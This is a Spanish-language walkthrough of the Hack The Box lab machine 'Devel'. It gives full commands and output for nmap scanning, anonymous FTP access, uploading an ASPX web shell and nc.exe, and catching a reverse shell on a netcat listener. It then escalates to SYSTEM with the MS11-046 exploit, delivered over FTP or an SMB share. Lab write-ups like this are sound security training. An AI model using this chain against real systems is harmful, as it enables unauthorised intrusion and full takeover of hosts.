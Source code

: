 ![](Devel.png)

# Reconocimiento

Lanzamos una traza icmp para ver si nos responde la maquina

```shell
> ping -c 1 10.10.10.5
PING 10.10.10.5 (10.10.10.5) 56(84) bytes of data.
64 bytes from 10.10.10.5: icmp_seq=1 ttl=127 time=35.4 ms

--- 10.10.10.5 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 35.388/35.388/35.388/0.000 ms
```

Vamos a escanear todo el rango de puertos abiertos de la maquina

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.5

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 127
80/tcp open  http    syn-ack ttl 127
```

De los puertos encontrados vamos a lanzar scripts basicos de reconocimiento y escanear versiones

```shell
nmap -sCV -p21,80 10.10.10.5

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Puerto 21 (ftp)

Con lo escaneado anteriomente vemos que el puerto 21 ftp tiene habilitado el anonymous vamos a echarle un vistazo

```shell
ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:red): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

## Puerto 80 (http)

![](IIS.PNG)

Si vemos el codigo fuente la imagen tiene el mismo nombre que en lo que havia en el ftp

![](image.PNG)

Si tenemos permisos para subir en el servidor ftp podriamos subir una web-shell en aspx para ejecutar comandos porque como es un IIS lo interpreta como un archivo

```shell
> cp /usr/share/davtest/backdoors/aspx_cmd.aspx .
> ls
 aspx_cmd.aspx
```

Vamos a subir el cmd.aspx en el servidor ftp con el comando `PUT`

```shell
> ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:red): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.       
ftp> put aspx_cmd.aspx
200 PORT command successful.
150 Opening ASCII mode data connection.
226 Transfer complete.
1438 bytes sent in 0.00 secs (29.1784 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
04-08-21  08:46AM                 1438 aspx_cmd.aspx
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```

Y podemos ejecutar comandos

![](aspx.PNG)

Como podemos ejecutar comandos lo que nos interesa es poder ganar accesso a la maquina no o recibir una reverse shell con netcat pues vamos a subir el nc.exe al servidor ftp

```shell
> ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:red): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> binary
200 Type set to I.
ftp> put nc.exe
local: nc.exe remote: nc.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
28160 bytes sent in 0.00 secs (295.1150 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
04-08-21  09:01AM                 1438 aspx_cmd.aspx
03-17-17  05:37PM                  689 iisstart.htm
04-08-21  09:05AM                28160 nc.exe
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```

Claro pero nosotros no sabemos donde ahora esta el nc.exe pues buscando en google la ruta por defecto del IIS vemos que es la siguiente:

![](path.png)

`C:\inetpub\wwwroot\nc.exe`

Pues nos enviamos una reverse shell por nc de la siguiente manera

Primero nos ponemos en escucha en otra ventana diferente con nc

```shell
> rlwrap nc -lvnp <puerto> # Rlwrap sirve para que podamos tener una shell mas interactiva
listening on [any] 4444 ...
```

Y estamos dentro

```shell
rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.5] 49160
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
iis apppool\web

c:\windows\system32\inetsrv>
```

# Escalada de Privilegios

Ahora nos queda elevar de privilegios porque tenemos por ahora un usuario con bajos privilegios

Vemos que es un windows 7 y la version es un tanto antigua vamos a buscar un **exploit** para poder escalar de privilegios al usuario **administrador**.

```shell
C:\Windows\Temp> systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
```

Buscamos en google `6.1.7600 N/A Build 7600` exploit y encontramos el repositorio de github de abatchy17

- Nos descargamos el `ms11-046.exe`

```shell
> wget https://github.com/abatchy17/WindowsExploits/blob/5e9c25cda54fe33fb6e1fd3ae60512a1113b41df/MS11-046/MS11-046.exe
> ls
 ms11-046.exe
```

Para subir-lo a la maquina victima se puede hacer de 2 formas desde ftp o compartiendo una carpeta compartida por smb

1. FTP

```shell
> ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:red): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> binary
200 Type set to I.
ftp> put ms11-046.exe
local: ms11-046.exe remote: ms11-046.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
139699 bytes sent in 0.16 secs (859.7100 kB/s)
```

```shell
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
c:\windows\system32\inetsrv> C:\inetpub\wwwroot\ms11-046.exe
c:\Windows\System32>whoami
whoami
nt authority\system
```

2. Con smbserver

```shell
> smbserver.py smbFolder $(pwd)
```

```shell
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
c:\windows\system32\inetsrv>\\10.10.16.2\smbFolder\exploit.exe
c:\Windows\System32>whoami
whoami
nt authority\system
```